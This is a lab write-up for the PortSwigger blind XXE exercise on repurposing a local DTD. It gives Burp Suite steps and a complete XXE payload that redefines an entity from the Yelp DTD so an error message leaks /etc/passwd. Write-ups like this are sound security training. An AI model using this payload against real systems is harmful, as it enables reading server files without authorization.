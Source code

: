 # Exploiting XXE to retrieve data by repurposing a local DTD

## Description

[This lab](https://portswigger.net/web-security/xxe/blind/lab-xxe-trigger-error-message-by-repurposing-local-dtd) has a **Check stock** feature that parses XML input but does not display the result. See [Automating local DTD discovery for XXE exploitation](https://www.gosecure.net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation/) for an excellent description of this attack and [their github repo](https://github.com/GoSecure/dtd-finder/blob/master/list/dtd_files.txt) for a list of potential DTD files.

## Reproduction and proof of concept

1. Visit a product page, click **Check stock**, and intercept the resulting POST request in Burp Suite.
2. Send to Repeater and insert the following parameter entity definition in between the XML declaration and the `stockCheck` element:

```text
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

This will import the Yelp DTD, then redefine the ISOamso entity, triggering an error message containing the contents of the `/etc/passwd` file.

![XXE](/_static/images/xxe15.png)

## Exploitability

An attacker will need to reference an existing DTD file on the server and redefine an entity from it to trigger an error message containing the contents of the `/etc/passwd` file.
